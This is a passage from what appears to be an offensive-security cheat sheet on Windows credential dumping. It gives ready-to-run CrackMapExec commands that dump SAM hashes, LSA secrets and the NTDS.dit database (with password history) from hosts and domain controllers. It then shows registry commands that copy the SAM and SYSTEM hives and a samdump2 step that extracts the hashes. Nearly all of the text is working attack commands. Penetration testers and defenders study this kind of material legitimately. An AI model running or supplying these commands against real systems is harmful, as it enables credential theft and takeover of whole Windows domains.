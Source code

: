 We just have to keep in mind that this technique can only be executed as **SYSTEM**.

**You can automate this process with** [**lssasy**](https://github.com/Hackndo/lsassy)**.**

## CrackMapExec

### Dump SAM hashes

```text
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

### Dump LSA secrets

```text
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

### Dump the NTDS.dit from target DC

```text
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

### Dump the NTDS.dit password history from target DC 

```text
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```

### Show the pwdLastSet attribute for each NTDS.dit account

```text
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```

## Stealing SAM & SYSTEM

This files should be **located** in _C:\windows\system32\config\SAM_ and _C:\windows\system32\config\SYSTEM._ But **you cannot just copy them in a regular way** because they protected.

### From Registry

The easiest way to steal those files is to get a copy from the registry:

```text
reg save HKLM\sam sam
reg save HKLM\system system
```

**Download** those files to your Kali machine and **extract the hashes** using:

```text
samdump2 SYSTEM SAM
```
